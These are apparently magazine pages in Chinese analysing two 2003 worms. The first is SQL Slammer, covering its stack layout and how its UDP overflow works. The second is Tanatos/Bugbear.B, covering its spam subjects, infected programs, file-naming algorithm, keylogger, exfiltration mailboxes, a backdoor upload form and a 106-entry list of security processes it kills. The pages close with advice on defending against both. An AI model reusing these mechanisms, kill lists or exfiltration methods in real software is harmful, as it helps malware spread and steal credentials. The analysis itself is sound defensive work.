| ebp+3 -- ebp+3 | 04h（从这里开始，以上的376个字节将被发送出去） |
| ebp+2 -- ebp | 000 |
| ebp-1 -- ebp-10 | kernel32.dll\0\0\0 |
| ebp-11 -- ebp-20 | GetTickCount,0000 |
| ebp-21 -- ebp-2C | ws2_32.dll,00 |
| ebp-2D -- ebp-34 | socket,00 |
| ebp-35 -- ebp-3C | sendto,00 |
| ebp-3D -- ebp-40 | ws2_32.dll 的模块地址 |
| ebp-41 -- ebp-4B | sin_zero byte 8 dup(?) |
| ebp-49 -- ebp-4C | 随机产生的IP地址 / sin_addr |
| ebp-4D -- ebp-50 | 1434端口(059Ah) / AF_INET(02) |
| ebp-51 -- ebp-54 | 套接字句柄 |

到这里，通过仔细阅读上面的反汇编代码之后，该病毒的大部分原理大致应该都清楚了，但是还有一个最重要的问题我们或许还会存在疑问：堆栈中 ebp+67 以后的高地址部分为什么是包的剩余内容（EB 0E 01 01 01 01 01 01 01 70……）？

这里，我们来逐步分析一下这个蠕虫的发作过程。

- 1. 上面的UDP包发往一台存在该漏洞机器的1434端口。
- 2. 当SQL Server Resolution服务在UDP 1434端口接收到该第一个字节设置为0x04的UDP包时，SQL监视线程会获取UDP包中的数据并使用此用户提供的信息来尝试打开注册表中的某一键值。
- 3. 当目标机尝试打开这个特殊构造后的字符串相对应的键值时，发生基于栈的缓冲区溢出。
- 4. 此时包中的数据42B0C9DC已经覆盖栈中保存的返回地址。
- 5. 当返回时，直接将堆栈顶端地址42B0C9DC弹出送到EIP中，并开始执行这个地址指向的指令。
- 6. 由于地址0x42B0C9DC是指向sqlsort.dll中的一条指令 `jmp esp`，而此时的ESP指向 `EB 0E (JMP $+0x0E)`，因此从该处开始执行并进入前面的反汇编部分，继续构造随机IP并对外发包。

注意：此时的ESP指向“EB 0E”，而ESP之前低地址部分的原有包中数据已经被更改，但是ESP指向地址及其之后高地址部分的数据都没有发生改变。

由于随后就开始执行上面我们分析的反汇编部分，所以在这部分代码中，如果先将堆栈中ESP之前低地址部分的原有包中已经被更改的数据重新写回去的话，那么就可以重新构造出一个可以利用的完整的数据包。

而上面这段代码也正是这么做的，构造完毕后该包的首地址为EBP+3，这也正是后面sendto函数往目标IP发送的数据的缓冲区首址。

### 后记

在该蠕虫爆发5个月之后，当某些路由器上针对该蠕虫的限制被取消之后，还有大量机器正在被该蠕虫感染。应当说广大用户的安全意识还不够。最近，RPC漏洞又闪亮登场，如果有利用该漏洞的RPC病毒出现，其危害和后果将会更加严重。如果广大用户不更加防范、及时打好补丁，可能到时候会导致一场更大的网络风波。现在赶快行动，亡羊补牢，为时未晚！

能够引起反病毒公司炒作和媒体关注的病毒有很多，但是能够像妖怪B这样引起联邦调查局介入调查的却很少。该“妖怪”到底有哪些魔力呢？病毒、网络蠕虫还是黑客程序？无论是其超强的传播性、破坏性和目的性，还是媒体和反病毒公司的宣传，似乎都给它罩上了一层神秘的光环。今天让我们一起走进妖怪的世界，闻闻妖怪的气息。



## 打破妖怪B的神秘光环

### 概述

来自Sophos公司的统计数据显示，在2003年的前六个月当中，电脑病毒发作的活跃程度高出去年同期17个百分点，而且没有减弱迹象。根据Sophos的统计结果，排名前10位的电脑病毒中，妖怪B病毒以感染率11.6%名列榜首，妖怪A也以感染率2.5%位居第7。

和其他的网络蠕虫一样，妖怪B同样是可以通过邮件来传播的。其可以感染所有流行的Windows操作系统。同时，该蠕虫还能通过网络的共享目录来传播（目前的大多数网络蠕虫都有类似的性质），该病毒还含有后门、黑客程序的性质，它能记录用户的键盘操作，并截获用户的登录名和密码。妖怪B病毒同样会修改注册表，并将自己放到启动项中，这样电脑用户开机时病毒会自动启动；它也会自动搜索并杀掉它知道的安全软件的进程。最引人关注的是，它可以对1200多家银行进行有目的性的攻击，可以向外界客户端发送被感染用户的机密信息，如用户名和密码等。另外，妖怪B病毒还会攻击打印机，只要它找到本地或者网络打印机，就会打印二进制代码串。

妖怪B使用VC6编写，并使用UPX压缩过，该网络蠕虫的大小是72K字节。用来传播的网络蠕虫往往有双扩展名，尽管文件名称是变化的，但是文件的真正扩展名通常是exe、scr或者pif 3种后缀中的任意一种。

之所以称该网络蠕虫为I-Worm/Tanatos，是因为在该网络蠕虫的代码内含有字符串Project Tanatos，中文名称为“妖怪”。是因为该病毒兼有非常多的病毒特性、黑客程序特性、破坏性等，其实单纯说它只是病毒或者网络蠕虫或者黑客程序都是非常不恰当的。

### 该病毒的特点

妖怪B病毒能引起如此广泛的注意，是与它本身功能代码的各个特点分不开的。下面我们逐一对其进行分析。

### 1. 通过E-mail传播

1) 利用了错误MIME头漏洞加速传播。妖怪B之所以传播非常迅速，这与其利用了“不正确的MIME表头可能导致IE执行电子邮件附件”的漏洞是分不开的。打开带毒的电子邮件的时候，邮件中的附件便会自动执行，这一点和求职信病毒非常相似，其实Nimda病毒也利用了这个漏洞。

> **Pig.j**：关于这个漏洞的具体描述，大家可以参考《黑客防线》2003年第7期的相关介绍，还可以在网上搜索到更加详细的相关资料。

这个漏洞已经被发布很长时间了，但大家似乎对这个漏洞都没有引起足够的认识。譬如前段时间闹得火热的QQ连发器也正是利用了该漏洞，导致非常多的用户感染。也正因为大多数存在该漏洞的计算机存在，妖怪和QQ连发器等病毒才会像今天这样嚣张。

> **Pig.j提醒**：到现在为止，肯定还有很多读者朋友仍然没有打上这个漏洞补丁，赶快行动吧！说不定下次就轮到你了哦！相关补丁及专杀工具已经放在光盘中了。

### 2. 如何得到E-mail地址

妖怪B可以从下面的注册表项中获取用户的邮件地址信息和SMTP服务器信息：`HKEY_CURRENT_USER\SOFTWARE\Microsoft\Internet Account Manager\Accounts`。另外其也可以在收件夹和文件 `.mmf`、`.nch`、`.mbx`、`.eml`、`.tbb`、`.dbx` 和 `.ocs` 中查找E-mail地址。

### 3. 在发送E-mail上的特点

在发送E-mail上，妖怪病毒有几个比较显著的特点。

- 1. 妖怪B使用自身携带的SMTP程序发送带毒邮件。
- 2. 伪造信件的原发人。
- 3. 邮件标题从以下标题中随机选取：
  - Greets!（祝贺）
  - Get 8 FREE issues — no risk!（免费获得8项——没有危险）
  - Hi!（嘿！）
  - Your News Alert（你的新闻警告）
  - $150 FREE Bonus!（150美元的免费奖励）
  - Re:（回复）
  - Your Gift（你的礼物）
  - New bonus in your cash account（你的现金账户的新的奖励）
  - Tools For Your Online Business（在线商务活动工具）
  - Daily Email Reminder（每天的邮件提醒）
  - News（新闻）
  - free shipping!（免费乘船）
  - its easy（非常容易）
  - Warning!（警告）
  - SCAM alert!!!（SCAM报警）
  - Sponsors needed（急需赞助）
  - new reading（新的读物）
  - CALL FOR INFORMATION!（需要信息）
  - 25 merchants and rising（25个商人）
  - Cows（牛）
  - My eBay ads（我的电子港湾广告）
  - empty account（空空如也的账号）
  - Market Update Report（市场升级报告）
  - click on this!（请点击）
  - fantastic（不可思议）
  - wow!（喔）
  - bad news（坏消息）
  - Lost & Found（丢失 & 找到）
  - New Contests（新的竞赛）
  - Today Only（今天唯一的）
  - Get a FREE gift!（获得一个免费的礼物！）
  - Membership Confirmation（会员确认）
  - Report（报告）
  - Please Help...（请帮忙）
  - Stats（状态）
  - I need help about script!!!（我需要脚本方面的帮助!!!）
  - Interesting...（非常有意思）
  - Introduction（介绍）
  - various（各种各样）
  - Announcement（声明）
  - history screen（历史景点）
  - Correction of errors（改错）
  - Just a reminder（提醒一下）
  - Payment notices（付款通知）
  - hmm..（嗯）
  - update（升级）
  - Hello!（你好）

> Pig-J：因为经常会收到读者朋友的来信，所以对于上面的某些标题来说，我还是会认为它们是正常邮件的。呵呵，还好，我使用Web收发邮件，这样危险性减少了好多！

#### 4. 邮件附件文件名是变化的

为了使每个感染者发送出的蠕虫文件名都不一样，该蠕虫还读取注册表键：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders` 中的Personal键值，并读取该键值指向目录下的文件。一般来说，该键值对应“我的文档”文件夹路径（譬如Windows 98系统下一般为 `c:\My Documents`）。

妖怪B从该目录来获得用来传播的附件文件名称，其一般取具有如下文件后缀的文件名：`.reg, .ini, .bat, .diz, .txt, .cpp, .html, .htm, .jpeg, .jpg, .gif, .cpl, .dll, .vxd, .sys, .com, .exe, .bmp`。其文件名中也可能含有：`readme, Setup, Card, Docs, news, image, images, pics, resume, photo, video, music, song, data`等单词，同时该病毒会给要作为附件传播的文件加上 `exe`、`pif` 或者 `scr` 做扩展名。对于找到的文件名称，妖怪B在传播时会对用来传播的邮件做相应修改，使其适应不同的文件类型。

#### 5. 感染文件

妖怪B可以感染本地程序，同时也可以对网络共享资源进行搜索并对目标文件进行感染。妖怪B主要感染以下一些本地程序。

- scandskw.exe
- regedit.exe
- mplayer.exe
- hh.exe
- notepad.exe
- winhelp.exe
- Internet Explorer\iexplore.exe
- adobe\acrobat 5.0\reader\acrord32.exe
- WinRAR\WinRAR.exe
- Windows Media Player\mplayer2.exe
- Real\RealPlayer\realplay.exe
- Outlook Express\msimn.exe
- Far\Far.exe
- CuteFTP\cutftp32.exe
- Adobe\Acrobat 4.0\Reader\AcroRd32.exe
- ACDSee32\ACDSee32.exe
- MSN Messenger\msnmsgr.exe
- WS_FTP\WS_FTP95.exe
- QuickTime\QuickTimePlayer.exe
- StreamCast\Morpheus\Morpheus.exe
- Zone Labs\ZoneAlarm\ZoneAlarm.exe
- Trillian\Trillian.exe
- Lavasoft\Ad-aware 6\Ad-aware.exe
- AIM95\aim.exe
- Winamp\winamp.exe
- DAP\DAP.exe
- ICQ\Icq.exe
- kazaa\kazaa.exe
- winzip\winzip32.exe

以上都是我们经常用到的文件，可能有些软件我们用不到，但是像注册表编辑器regedit.exe、记事本notepad.exe、打开帮助文件时要用到的hh.exe，还有上网几乎每个人都要用到的iexplore.exe，压缩/解压缩经常用到的WinRAR.exe和winzip32.exe等等。我们几乎无时无刻都离不开它们。看来，该病毒获得控制权的方式很多哦！

> Pig-J：好恐怖！这么多常用软件都可能带毒！除了经常更新病毒库，我究竟还能做些什么？

另外，妖怪B可以列举出所有的网络资源。如果它获得了网络共享资源的管理员权限的话，网络蠕虫就会将自身拷贝到远程被感染机器的启动目录（Startup）下。正是通过这种方式，该蠕虫程序会在远程机器重新启动后，在远程机器上获得执行控制权。依此类推，病毒就会扩散开来。另外，病毒如果检测到有打印机或者网络打印机的存在，会将病毒体的二进制代码随机取出进行打印。

还有，妖怪B除了将自己复制一份到本地机器启动目录外，还会将自己复制到系统目录（譬如Windows 2000的system32目录）中。该目标文件的文件名是随机的，并且其创建日期会被修改，这样可以避免其轻易被发现。该文件名是按照如下方式确定的：

- 1. 首先通过GetVolumeInformation函数获得C盘的磁盘序列号（譬如067EC787H）。
- 2. 将该序列号转换为10进制数字串即108971911，取其高四位，即1089。这4个字符的ASCII码串为31303839H。
- 3. 对每个ASCII码这样操作：先乘以7，得到一个数字（譬如，31H*7=157H），然后用该数字除以1AH（即26，因为共有26个字母），得到其余数（157H/1AH的余数为5）。
- 4. 得到余数后，用该余数在abcdef...z中查表得到文件名的相应字符（譬如，5对应着f，表中从0开始编号）。

继续作如上变换后，最后通过字串1089便会得到文件名前缀fycj，通过strcat函数与“.exe”字串合并得到文件名“fycj.exe”，然后通过CharUpperBuffA函数将其全部转换为大写字母，得到文件名“FYCJ.EXE”，这就是病毒文件的文件名。当然，由于各台计算机C盘的磁盘序列号有所不同，因此最后得到的文件名亦有所变化，但是对于每一台计算机来说，即使其中毒多次，该文件名也不会发生变化。

对于system32下面的几个dll文件的文件名前缀，同样是采用以上方法来获取的。譬如，对于rompjrp.dll文件的文件名便是这样得到的。和上面一样，首先同样是获得C盘的磁盘序列号（067EC787），然后转化为10进制串得到108971911，对每个字符的ASCII码进行操作。

不同的是，这里不是取高4位，而是高7位，并且那个乘数不为7而是3。这样，31H*3=93H，然后93H/1AH得余数为11H（即17），而表中的第17项对应着字母r。其他各位依次如此变换便得到文件名rompjrp，与“.dll”合并后得到文件名rompjrp.dll。

键盘钩子对应的lguzplz.dll文件的文件名是将乘数取5、字符数取7位得到的。还有其他几个文件名，icyesi.dll分别对应的乘数和字符数为6、6；放在系统启动项中的文件cug.exe的文件名对应的乘数和字符数为8、3；放在注册表中RunOnce下的键值tis是由对应的乘数0BH和字符数3产生的。

> Pig_j：看来知道自己的C盘的磁盘序列号后，我们也可以算出该病毒所产生的各个文件的文件名了。呵呵，如果你数学还行的话，也可以通过这几个文件名计算出自己的磁盘序列号哦（不过可能只有前几位）。

#### 6. 修改注册表

妖怪病毒为了获得控制权，会对注册表中相关键值进行修改。

在 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce` 添加键值tis，并使其指向fycj.exe文件。这里tis和fycj.exe两个字符串随各计算机C盘的磁盘序列号不同而有所变化。

这样每次机器重启后，病毒除了通过启动项外，还可以通过这种方式获得控制权。

#### 7. 记录用户键盘击键情况

妖怪B利用钩子函数对键盘击键进行了记录。这里采用的技术比较常见。其在系统目录（Win2000下为system32目录）下生成了一个5632字节的lguzplz.dll文件（其中，文件名lguzplz是按照前面所述规则产生的）。这样，病毒就可以直接对该动态链接库中的函数进行调用。通过分析lguzplz.dll文件得知，其共有4个函数fkp、fgd、fko、fkf。其中，fko函数通过SetWindowsHookExA函数创建了一个Keyboard类型的全局钩子，这样其可以对所有进程及其线程的所有击键信息进行接收和记录。而fkf函数则用来卸载安装的钩子。其回调函数也没有什么特别之处，无非是通过GetKeyboardState函数和ToASCII函数获得击键的ASCII码并作相应处理。目前，该DLL文件已经被侦测为PWS.Hooker.Trojan。病毒在运行的过程中会在系统目录建立随机文件名的DLL或.DAT文件，其中存放着通过键盘记录程序获得的用户击键信息经过加密后的数据。键盘记录的数据文件每隔两个小时，或在文件大于25000字节时被发送给下列邮箱：

- WXUudeba@mail.com.fr
- bernhardca@111.com
- glucarini@email.it
- sohailam@brain.com.pk
- tiharco@mail.gr
- ……（后面省略）

拦截到的键盘输入字符是经过加密以后发送到指定邮箱的。这样一来，输入到计算机的资料便会外泄（包括密码、输入数据等等重要信息）。该病毒在发送键盘记录数据文件时，首先会关闭自动拨号，以避免在断线时拨号引起怀疑，并且病毒会在文件发送完毕后还原原来的设定。

> Pig_j：如果有自动拨号功能的话，当我们在机器上发送连接网络请求时（譬如访问一个网页），系统便会自动调用拨号程序并发起拨号连接。这里该病毒关闭了这项功能，就是考虑在用户没有上网的情况下，避免病毒的网络请求触发拨号程序，以免引起用户的怀疑。

#### 8. 加壳

现在的蠕虫程序中有很大一部分都是经过加壳处理的，譬如前段时间闹得很凶的QQ连发器，其有很多版本就是经过加壳的，这给分析者带来了一定的难度。

哦，对了，这里介绍一下壳的概念。在一些计算机软件中，作者为了保护程序不被非法修改或反编译，他们通常会给原有程序外面再加上一“层”程序加以保护，它们先于原程序正常功能代码运行，拿到控制权后可以保护软件的原有功能代码。现在的加壳软件很多，譬如UPX、ASProtect、tElock等。

如果蠕虫经过加壳以后，不对其进行脱壳的话，其分析起来将会比较麻烦。对加壳软件来说，一般都会有相应的脱壳工具。我们可以首先通过FI这个软件查看其属于哪种壳，然后直接使用相应的脱壳工具直接对其脱壳。

妖怪病毒是经过UPX压缩过的，所以如果要对其进行分析并且不愿意在壳中穿来穿去的话，最好首先对其进行脱壳。

#### 9. 与黑客技术相结合

现在，病毒已经和黑客技术逐渐结合起来了。譬如，2001年爆发的Nimda病毒就是一个病毒与黑客技术结合的典型。我们应该看到，病毒与黑客技术的结合已经是病毒发展的必然趋势，病毒利用黑客技术可以加速自己的感染和传播，并且可以通过黑客程序获得非常重要的信息和资料。妖怪病毒也一样，如前面所说，该病毒还会监视用户的键盘输入，并将这些内容发回到指定邮箱。另外，它会在本地系统打开1080端口进行监听，等待控制台端的连入。通过对代码的分析，发现该后门暴露系统信息，并可供控制者远程执行如下简单控制命令：删除档案、结束程序、列出程序并将清单传送至黑客手中、复制文件、运行程序、列出程序清单并返回给黑客。

```text
User:<用户名>
Processor:<计算机的处理器>
Windows.version:<Windows操作系统的版本号以及Build号码>
```

Memory information: \<可用内存数等>

本地驱动器以及其类型（是硬盘、软盘、内存磁盘，还是 CDROM、远程磁盘等）以及其物理参数、网络资源以及其类型。

另外，如果用户的操作系统是 Windows 95/98/Me 的话，该网络蠕虫还会试图访问带有密码控制的共享文件资源。该项功能使用了一个目前并没有公开的 Windows 的 DLL 文件提供的函数：WnetEnumCachedPasswords。

同时，该网络蠕虫的黑客程序部分还可以提供 Web 网页格式的访问模式，这样为黑客窃取信息提供了极大的方便之门。譬如，我们可以从病毒样本中发现如下代码：

```html
<FORM ENCTYPE="multipart/form-data" ACTION="/?upload" METHOD="POST!">
  <P><INPUT TYPE="SUBMIT" VALUE="Upload File"></P>
  <INPUT TYPE="file" NAME="filename"></FORM>
```

> Pig：很明显，这段代码就是用于上传文件用的。大家可以将这段代码输入到一个 .htm 文件，看看这类表单是不是很熟悉呢？

可见，当黑客获得这些信息和上面提到的权限之后，被感染妖怪 B 病毒的目标机已经没有任何安全性可言，可以任人摆布了。

## 7. 关闭各类安全软件

现在病毒为了获得自己的生存空间，已经非常普遍地开始对各种安全软件下黑手。譬如，求职信病毒、YAHA、Goner、Campurf 等。同样，妖怪病毒为了防止被各类安全软件发现和查杀，将一系列程序列入了它的黑名单。当机器感染妖怪病毒后，它将关闭黑名单中的相关进程。

这份名单数量较多，共涉及到 106 个进程，这些字符串几乎覆盖了世界上所有知名的杀毒软件。其列表如下：

- ZONEALARM.EXE（防火墙 ZoneAlarm）
- 以及后续大量安全软件/防火墙/杀毒相关进程名（见右栏完整列表）
- WFINDV32.EXE
- WEBSCANX.EXE
- VSSTAT.EXE
- VSHWIN32.EXE
- VSECOMR.EXE
- VSCAN40.EXE
- VETTRAY.EXE
- VET95.EXE
- TDS2-NT.EXE
- TDS2-98.EXE
- TCA.EXE
- TBSCAN.EXE
- SWEEP95.EXE
- SPHINX.EXE
- SMC.EXE
- SERV95.EXE
- SCRSCAN.EXE
- SCANPM.EXE
- SCAN95.EXE
- SCAN32.EXE
- SAFEWEB.EXE
- RESCUE.EXE
- RAV7WIN.EXE
- RAV7.EXE
- PERSFW.EXE
- PCFWALLICON.EXE
- PCCWIN98.EXE
- PAVW.EXE
- PAVSCHED.EXE
- PAVCL.EXE
- PADMIN.EXE
- OUTPOST.EXE
- NVC95.EXE
- NUPGRADE.EXE
- NORMIST.EXE
- NMAIN.EXE
- NISUM.EXE
- NAVWNT.EXE
- NAVW32.EXE
- NAVNT.EXE
- NAVLU32.EXE
- NAVAPW32.EXE
- N32SCANW.EXE
- MPFTRAY.EXE
- MOOLIVE.EXE
- LUALL.EXE
- LOOKOUT.EXE
- LOCKDOWN2000.EXE
- JEDI.EXE
- IOMON98.EXE
- IFACE.EXE
- ICSUPPNT.EXE
- ICSUPP95.EXE
- ICMON.EXE
- ICLOADNT.EXE
- ICLOAD95.EXE
- IBMAVSP.EXE
- IBMASN.EXE
- IAMSERV.EXE
- IAMAPP.EXE
- FRW.EXE
- FPROT.EXE
- FP-WIN.EXE
- FINDVIRU.EXE
- F-STOPW.EXE
- F-PROT95.EXE
- F-PROT.EXE
- F-AGNT95.EXE
- ESPWATCH.EXE
- ESAFE.EXE
- ECENGINE.EXE
- DVP95_0.EXE
- DVP95.EXE
- CLEANER3.EXE
- CLEANER.EXE
- CLAW95CF.EXE
- CLAW95.EXE
- CFINET32.EXE
- CFINET.EXE
- CFIAUDIT.EXE
- CFIADMIN.EXE
- BLACKICE.EXE
- BLACKD.EXE
- AVWUPD32.EXE
- AVWIN95.EXE
- AVSCHED32.EXE
- AVPUPD.EXE
- AVPTC32.EXE
- AVPM.EXE
- AVPDOS32.EXE
- ……
- AVPCC.EXE
- AVP32.EXE
- AVP.EXE
- AVNT.EXE
- AVKSERV.EXE
- AVGCTRL.EXE
- AVE32.EXE
- AVCONSOL.EXE
- AUTODOWN.EXE
- APVXWIN.EXE
- ANTI-TROJAN.EXE
- ACKWIN32.EXE
- _AVPM.EXE
- _AVPCC.EXE
- _AVP32.EXE

> Pig_j：眼睛都快看花了，不过在 Google 中搜了搜，发现好像有很多病毒都用到了这个列表，看来这份黑名单被很多病毒共享和借用了。

看来，妖怪 B 似乎想对全世界所有的安全类软件斩尽杀绝。就算反病毒公司提供了最新的病毒定义又能将它怎样呢？

关闭进程这项功能从技术上讲比较简单。其大致思路是这样的：先通过对进程进行快照，然后对各个进程进行遍历比较，一旦发现上面列举的进程，便强行关闭该进程，Sleep 20 秒后循环以上操作。即每过 20 秒，妖怪 B 便会查看进程列表，并关闭相关安全软件的进程，以达到“打击敌人、保存自己”的目的。

## 8. 攻击银行系统

应该说这是妖怪 B 最引人注意的地方了，这也是妖怪 A 和妖怪 B 最大的区别之一。妖怪 B 有特别针对金融机构设计的功能。

如果妖怪 B 确定系统的预设电子邮箱属于某个银行公司，除了发送键盘记录的数据文件外，病毒还会将拨号网络的相关密码传给病毒作者。

这些资料每隔两个小时或在数据文件大于 25000 字节时，被发送给下列邮箱：

- ifrbr@canada.com
- sdoradl@juno.com
- fbnfgh@email.ro
- eruir@hotpop.com
- crsdes@truthmail.com
- eofb2@blazemail.com
- ioter5@yook.de
- iuery@myrealbox.com
- jkfhw@wildemail.com
- ds2iahf@kukamail.com

可以看出，妖怪 B 对银行系统产生了极大的兴趣。对整个金融界来说，这不得不引起高度重视。当然，谁也难以保证今后不会出现专门针对其他单独部门的病毒。

也正是因为妖怪 B 的这个特点，美国联邦调查局对这个病毒进行了相关调查。一些安全专家认为，这可能是首例主要以一个单独经济部门为目标的互联网袭击计划。从对该病毒样本的分析中可以发现，其代码中含有世界上所有大型金融机构的网址，数量多达 1200 个，其中包括摩根大通公司、美国运通公司、瓦霍维亚公司、美洲银行公司和花旗银行等。

### 三、病毒的发展方向

从 1986 年第一个真正流行的“巴基斯坦智囊”病毒开始，病毒已经有了近 20 年的发展历史了。近 20 年来，病毒技术发展迅速，虽然令病毒极端泛滥的 DOS 时代已经过去了，但是其在 Windows 领域如今也正如火如荼，真正有更加繁荣昌盛的趋势。

让我们看看最近两年的病毒发作情况吧。在 2001 年，欢乐时光、Sircam、红色代码、蓝色代码、Nimda、求职信、Goner 等都给我们留下了难以磨灭的印象，2001 年可以说是病毒年，有影响的病毒非常之多，病毒所造成的损失也是极为巨大，仅红色代码就造成了 20 多亿美元的损失。2002 年采用了三线程技术的“中国黑客”病毒、妖怪 A，以及 2003 年的 Sobig、SQL 蠕虫王、四级恶性蠕虫病毒恶邮差、妖怪 B 以及自带端口扫描工具、可以暴力破解局域网中其他计算机登录密码的 Muma 病毒等等，它们都开始和黑客技术扯上了比较大的关系。病毒在逐渐和目的性很强的黑客程序相结合后将不再像以往那般盲目。目前，电脑病毒攻击途径也呈现了增长趋势，当中其中 8 个病毒的感染途径都在两种或两种以上，这使得 IT 管理人员更加难以对付。

我们有理由相信，病毒和黑客技术的相互结合已经势不可挡，更多的病毒会利用一些已经公开的漏洞加速自己的传播。另外，今后病毒的目的性必将有所加强。分布式计算的思想也可能会运用在病毒技术之中，到时候病毒将会加强相互之间的交流和合作，并且会初步具有比较低级的智能。

另外，很多用户在查看电子邮件时，不对附件作任何检查便打开执行。这是一个很不好的习惯。可能有些朋友认为发信人是可以信任的，但是我们应该想到病毒是可以自己控制邮件体的任何一个部分的。一般来说，对于收到的不明附件，如果实在觉得有必要打开，请先进行查毒，确认其不是非法程序。病毒也逐渐开始跟用户打心理战了。

### 四、防范措施

从上面对妖怪 B 病毒的分析中，我们不难发现，其实这个病毒并没有采用什么新的病毒技术。它之所以传播得如此迅速，与其利用了 IE5.01、IE5.5 的那个“不正确的 MIME 表头可能导致执行电子邮件附件”的漏洞分不开。但是这个漏洞早在 2 年前就已经公开了，并且我们也曾经深受其害。从前一段时间广泛流行的 QQ 连发器也看得出来，我们绝大多数用户并没有升级浏览器或者打相应补丁。所以为了抵抗病毒，我们非常有必要及时打好各种比较危险的补丁。

其次，病毒在感染文件时会搜索局域网资源。在 Windows 2000 系统下，当我们设置一个共享目录时，其默认的权限是“完全控制”，即任何用户都可以往该目录写入文件。建议设置最小使用权限，提供读取权限就可以解决问题的，就最好不要提供写权限。

再次，很多用户习惯给自己的机器设置弱密码，或者干脆不设置任何密码，或者给共享用户提供管理员权限，这也给病毒提供了方便之门。譬如，对于妖怪 B 来说，如果其无法获得局域网中其他机器的管理员权限，其是无法向对方启动项中写入病毒文件的，这样即使共享目录中被写入了病毒文件，其也很难会有获得控制权的机会。如果自己的机器处于局域网中，并且发现其感染了病毒，请及时断开自己的网络，避免其进一步传播。

另外，很多用户在查看电子邮件时，不对附件作任何检查便打开执行。这是一个很不好的习惯。

还有，很多朋友认为只要自己小心留意，装不装反病毒软件都差不多。这种想法是极端错误的。当然，有一个良好的安全习惯的确可以减少病毒感染的机会，但这不代表其完全不会被病毒感染。再说，反病毒软件一般也会将一些常见的木马、恶意程序等列入其查杀范围。这样，一旦有其记录的黑客程序进入你的计算机，其便会原形毕露。当然，反病毒软件的更新也是关键，并且其实时监控功能一定要打开。

最后，请关注各大反病毒网站的病毒公告。对于大多数病毒，我们都会在病毒公告中找到相关的信息。这样，当我们收到病毒邮件或者产生相关病毒症状的时候，我们也可以及时发现和解决。

> 后记：  
> 病毒一直都是网络安全中无法根治的一个问题。特别是对于很多企业和公司来说，要想在这个病毒满天飞的网络中维护自己的信息安全，首先必须加强员工的安全意识；另外也必须在网络安全方面加大投资力度，投入专人进行相关维护。在反病毒领域，永远都没有一劳永逸的办法，但我们相信，把握以上几点防范措施，将可以将病毒造成的破坏性降到更低。

- IE5.01 补丁下载地址：http://www.ccert.edu.cn/pub/patch/MS/IE/q818529ie5.01.exe
- IE5.5 补丁下载地址：http://www.ccert.edu.cn/pub/patch/MS/IE/q818529ie5.5.exe
- 妖怪 B 专杀工具：http://www.qcert.edu.cn/pub/tools/FixBugb.exe

## 加强终端服务的安全性

文／黄树东



